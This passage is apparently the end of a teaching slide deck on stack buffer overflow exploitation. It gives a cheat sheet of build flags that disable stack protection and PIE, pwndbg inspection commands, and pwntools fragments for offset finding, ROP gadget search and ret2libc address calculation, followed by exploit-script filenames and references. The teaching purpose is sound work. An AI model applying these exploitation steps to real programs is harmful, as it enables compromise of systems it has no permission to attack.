# build                                        # inspect                       # exploit
gcc -g -O0 -fno-stack-protector -no-pie -fno-pie vuln.c -o vuln64
gdb -q ./vuln64            checksec            cyclic 80
run < /tmp/cyclic64        vmmap libc          cyclic -l $rbp
b *greet+0x2b              got / plt           ROP(libc).find_gadget(["pop rdi", "ret"])
x/4gx $rsp                 telescope $rsp 8    p64()/p32() + sendline()
info registers             p/x (void *)system  system = base + ELF(libc).symbols["system"]
```

</div>

<div style="font-size:0.8em;margin-top:0.4em">

`./buffovf-scripts/` — `vuln.c`, `Makefile`, `exploit_ret2win.py`,
`exploit_ret2libc_x86.py`, `exploit_ret2libc_x86_64.py`, `libc_leak.py`,
`make_shots.py` (regenerates every screenshot), `gen_stack_svg.py`
(regenerates the animations)

</div>

---

# References

- [security.cs.pub.ro/summer-school/](https://security.cs.pub.ro/summer-school/) — the Romanian summer school this lab is modelled on
- [pwndbg documentation](https://pwndbg.re/) — every command used here
- [ir0nstone: binary exploitation notes](https://ir0nstone.gitbook.io/notes) — ret2libc, ret2plt, ROP step by step
- [glibc malloc internals](https://sourceware.org/glibc/wiki/MallocInternals) — for the heap part of Lecture 5
- [SoK: Eternal War in Memory](https://www.ieee-security.org/TC/SP2013/papers/4977a048.pdf) — why none of this is going away
- `man 3 gets`, `man 5 elf`, `man 2 personality`

---
layout: end
class: text-center
---

# Questions?

*Two numbers to remember:* the offset to the return address — <br>
and one address of your choice.

